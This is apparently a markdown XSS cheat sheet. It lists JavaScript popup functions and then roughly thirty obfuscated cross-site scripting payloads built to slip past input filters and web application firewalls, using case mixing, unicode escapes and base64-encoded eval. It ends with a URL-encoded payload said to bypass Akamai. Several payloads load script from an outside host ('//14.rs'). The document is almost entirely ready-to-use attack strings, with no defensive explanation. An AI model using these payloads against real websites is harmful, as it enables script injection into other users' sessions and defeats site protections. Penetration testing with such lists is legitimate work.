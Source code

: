  # JavaScript functions to get a popup
    alert()
    confirm()
    prompt()
    open()
    showModalDialog()
    window.alert()
    window.confirm()
    window.prompt()
    window.open()
    window.showModalDialog()
    window.print()
    Notification()
    navigator.notification.alert()
    navigator.notification.confirm()
    navigator.notification.prompt()
    toastr.info()
    toastr.success()
    toastr.warning()
    toastr.error()
    swal()
    iziToast.show()
    sweetalert()
    bootbox.alert()
    bootbox.confirm()
    bootbox.prompt()
    $.alert()
    $.confirm()
    $.prompt()
    $.fn.modal()
    $.fn.dialog()

  # Payloads for filter & WAF evasion
    '\'"</Script><Html Onmouseover=(confirm)()//'
    '<imG/sRc=l oNerrOr=(prompt)() x>'
    '<!--<iMg sRc=--><img src=x oNERror=(prompt)`` x>',
    '<deTails open oNToggle=confi\u0072m()>',
    '<img sRc=l oNerrOr=(confirm)() x>',
    '<svg/x=">"/onload=confirm()//',
    '<svg%0Aonload=%09((pro\u006dpt))()//',
    '<iMg sRc=x:confirm`` oNlOad=e\u0076al(src)>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '<sCript x>confirm``</scRipt x>',
    '<Script x>prompt()</scRiPt x>',
    '<sCriPt sRc=//14.rs>',
    '<embed//sRc=//14.rs>',
    '<base href=//14.rs/><script src=/>',
    '<object//data=//14.rs>',
    '<s=" onclick=confirm``>clickme',
    '<svG oNLoad=co\u006efirm&#x28;1&#x29>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '\'"><y///oNMousEDown=((confirm))()>Click',
    '<a/href=javascript&colon;co\u006efirm&#40;&quot;1&quot;&#41;>clickme</a>',
    '<img src=x onerror=confir\u006d`1`>',
    '<svg/onload=co\u006efir\u006d`1`>',
    'background-image:url("javascript:eval(atob(`YWxlcnQoMSk=`))")',
    '{{constructor.constructor("eval(atob(`YWxlcnQoMSk=`))")()}}',
    '"><script>eval(atob(`YWxlcnQoMSk=`))</script>',
    'String.fromCharCodes(97,108,101,114,116,40,49,41)',
    'eval(String.fromCharCodes(97,108,101,114,116,40,49,41))',
    '\\u003cscript\\u003eeval(atob(`YWxlcnQoMSk=`))\\u003c/script\\u003e',
    '<script>document.getElementById(`myDiv`).innerHTML="<img src=x onerror=eval(atob(`YWxlcnQoMSk=`))>";</script>',
    '<img src=#><script>eval(atob(`YWxlcnQoMSk=`))</script>',
    '<svg onload=eval(atob(`YWxlcnQoMSk=`))>',
    'payload%00<script>eval(atob(`YWxlcnQoMSk=`))</script',
    '&NewLine;<script&#9;type="text/javascript">alert(`XSS`)</script>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '"));eval(atob(`YWxlcnQoMSk=`))//'

## Akamaidra!!
%22%3E%3Ch1%3EAkiraq%3C%2Fh1%3E%3ca%2fhref%3d%22j%0A%0Davascript%3a%7bvar%7b3%3as,2%3ah,5%3aa,0%3av,4%3an,1%3ae%7d%3d'earltv'%7d[self][0][v%2ba%2be%2bs](e%2bs%2bv%2bh%2bn)(%2finfected%2f%2esource)%22%20%2f%3eclick%20(workin)Pinaki%20@0xInfection%20(Make%20sure%20the%20applications%20decodes%20the%20payload%20from%20encoded)

Thanks: Pinaki%20@0xInfection
